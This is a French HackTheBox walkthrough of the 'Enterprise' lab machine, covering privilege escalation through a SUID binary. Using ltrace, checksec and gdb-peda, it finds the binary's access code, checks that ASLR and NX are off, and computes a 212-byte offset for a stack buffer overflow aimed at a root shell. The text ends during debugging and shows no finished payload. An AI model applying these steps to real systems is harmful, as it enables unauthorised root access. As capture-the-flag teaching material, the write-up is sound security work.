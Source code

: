 ```yaml
---
title: "HackTheBox - Enterprise"
description: Walkthrough de la machine Enterprise sur HackTheBox
---
```

![enterprise](https://i.imgur.com/I3wDQWo.png)

Bonjour à tous, aujourd'hui je vous présente une machine notée hard qui est vraiment intéréssante pour les débutants en **exploitation** de **binaire** et en **Docker container escapes** : **Enterprise** de **HackTheBox**. 😃

# Recon

## Nmap 

[...]

# Vertical Privilege Escalation

Après une légère énumération, nous trouvons un binaire SUID pas commum :

![suid](https://i.imgur.com/BMkUGO3.png)

SUID est un type spécial de permissions données à un fichier. Normalement, lorsqu'un programme s'exécute, il hérite des autorisations d'accès de l'utilisateur connecté. SUID est défini comme donnant des permissions temporaires à un utilisateur pour exécuter un programme/fichier avec les permissions du propriétaire du fichier plutôt que de l'utilisateur qui l'exécute.

Le programme nous demande un code d'accès... Commençons par effectuer un ltrace pour en savoir plus.

[ltrace](https://github.com/dkogan/ltrace) est un outil qui permet d'intercepter les appels dynamiques de librairie ainsi que les appels systèmes d'un processus.

![ltrace](https://i.imgur.com/pS4hmx1.png)

Ici nous pouvons voir que le programme appel la fonction **strcmp**, cette fonction compare 2 chaines de caratères. En l'occurence ici, il compare notre string entrée grace à la fonction fgets, avec le véritable code d'accès qui est picarda1.
Cependant après connexion, le programme nous affiche seulement un menu principal.

Nous comprenons donc que nous allons devoir exploiter une vulnérabilité dans notre binaire afin d'élever nos privilèges. Cependant la fonction **fgets** vérifie le buffer / la taille de notre saisie.

Nous pouvons transférer l'exécutable sur notre machine pour utiliser [gdb-peda](https://github.com/longld/peda) :

![transfert_binary](https://i.imgur.com/6uD2jeP.png)

Tout d'abord vérifions les protections applicatives que contient ce binaire ainsi que l'[ASLR](https://www.networkworld.com/article/3331199/what-does-aslr-do-for-linux.html) sur la machine cible:

```sh
ON MY MACHINE :
  ❯ checksec --file=$PWD/lcars.bin  # Check properties
  [*] '/home/nuts/Documents/Hack_The_Box/Enterprise/lcars.bin'
      Arch:     i386-32-little
      RELRO:    Partial RELRO
      Stack:    No canary found
      NX:       NX disabled
      PIE:      PIE enabled
      RWX:      Has RWX segments
      
ON TARGET MACHINE:
  www-data@enterprise:/bin$ cat /proc/sys/kernel/randomize_va_space # Check ASLR
  0
```

L'ASLR est donc désactivé car sa valeur vaut 0 et non 2. Deplus NX n'est pas activé.

`L’address space layout randomization (ASLR) est une technique permettant de placer de façon aléatoire les zones de données dans la mémoire virtuelle.`

`NX est une protection qui rend la pile Non eXécutable.`

Je vais alors debugger le programme afin de comprendre son fonctionnement.

Après plusieurs minutes, j'ai trouvé un buffer overflow :

![segfault](https://i.imgur.com/bII4f6j.png)

Nous avons réussi à faire **segmentation fault** le programme grace à une saisie trop importante dans une variable non initialisée avec un buffer inférieur à la saisie car la fonction d'input ne vérifie pas la taille de notre chaine de caractères. 😁

Grâce à un buffer overflow, nous pouvons reécrire la sauvegarde EIP. (Instruction Pointer Register) Le registre EIP contient toujours l'adresse de la prochaine instruction à exécuter.

![bof_schema](https://i.imgur.com/UIh4wUo.png)

Pour cela il faut trouver le bon padding afin de overwrite convenablement nos registres (4 octets en 32 bits) et d'exécuter un shell en tant que root car je rappel que le binaire est SUID sur la machine.

Pour calculer ce padding nous allons voir 3 solutions :

### 1st solution

```py
gdb-peda$ info functions  # Print binary's functions
   [...]
gdb-peda$ disassemble main_menu 
Dump of assembler code for function main_menu:
   0x0000085e <+0>:	push   ebp
   0x0000085f <+1>:	mov    ebp,esp
   0x00000861 <+3>:	push   ebx
   0x00000862 <+4>:	sub    esp,0x1a4
   [...]
   0x00000947 <+233>:	add    esp,0x10
   0x0000094a <+236>:	sub    esp,0x8
   0x0000094d <+239>:	lea    eax,[ebp-0xd4]
   0x00000953 <+245>:	push   eax
   0x00000954 <+246>:	lea    eax,[ebx-0x206e]
   0x0000095a <+252>:	push   eax
   0x0000095b <+253>:	call   0x5c0 <__isoc99_scanf@plt>
   [...]
gdb-peda$ p/d 0xd4  # Convert hex to dec with gdb
$1 = 212
```

On récupére la valeur du lea juste avant la fonction stdin et on convertit cette valeur hexadécimal en décimal et on obtient un buffer de 212 chars.

### 2nd solution

Lorsque l’on utilise ce pattern pour causer un buffer overflow à l’intérieur d’un debugger, nous pouvons identifier exactement quels caractères écrasent l'adresse de retour.

Tout d'abord je vais créer un pattern de 500 bytes :

```py
gdb-peda$ pattern create 500
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A'
```

Ensuite je vais run le programme avec cette structure :

![pattern_search](https://i.imgur.com/g8tVTdB.png)

Nous trouvons encore une fois 212 octets.

### 3rd solution

Posons un breakpoint à la fonction main et lançons le programme :

```py
❯ gdb -q lcars.bin  # Launch gdb-peda
gdb-peda$ b main  # Breakpoint at main 
  Breakpoint 1 at 0xca0
gdb-peda$ run # Run the program
  Starting program: /home/nuts/Documents/Hack_The_Box/Enterprise/lcars.bin

  Breakpoint 1, 0x56555ca0 in main ()
```

Désassemblons la fonction main_menu pour trouver l'adresse mémoire de printf :

```py
gdb-peda$ disassemble main_menu   # Disassemble main_menu to find addr
Dump of assembler code for function main_menu:
   [...]
   0x56555ad7 <+633>:	call   0x565555c0 <__isoc99_scanf@plt>
   0x56555adc <+638>:	add    esp,0x10
   0x56555adf <+641>:	sub    esp,0x8
   0x56555ae2 <+644>:	lea    eax,[ebp-0xd0]
   0x56555ae8 <+650>:	push   eax
   0x56555ae9 <+651>:	lea    eax,[ebx-0x2138]
   0x56555aef <+657>:	push   eax
   0x56555af0 <+658>:	call   0x56555560 <printf@plt>
   0x56555af5 <+663>:	add    esp,0x10
   [...]
```

Posons un breakpoint à l'adresse juste après l'appel de la fonction printf et continuons le programme:

```py
gdb-peda$ b *0x56555af5 # Put breakpoint at after call function plt printf
  Breakpoint 2 at 0x56555af5
gdb-peda$ continue  # continue
```

Après avoir entrez les informations nécéssaires au binaire, nous pouvons voir notre saisie dans la stack :

```py
[----------------------------------registers-----------------------------------]
   [...]
[-------------------------------------code-------------------------------------]
   [...]
   0x56555af0 <main_menu+658>:	call   0x56555560 <printf@plt>
=> 0x56555af5 <main_menu+663>:	add    esp,0x10
   [...]
[------------------------------------stack-------------------------------------]
0000| 0xffffcaa0 --> 0x56555ec8 ("Rerouting Tertiary EPS Junctions: %s")
0004| 0xffffcaa4 --> 0xffffcb88 ("AAAAAAAAA")
0008| 0xffffcaa8 --> 0xffffcc58 --> 0xffffcc98 --> 0xffffccc8 --> 0x0 
0012| 0xffffcaac --> 0x56555882 (<main_menu+36>:	sub    esp,0xc)
   [...]
[------------------------------------------------------------------------------]
```
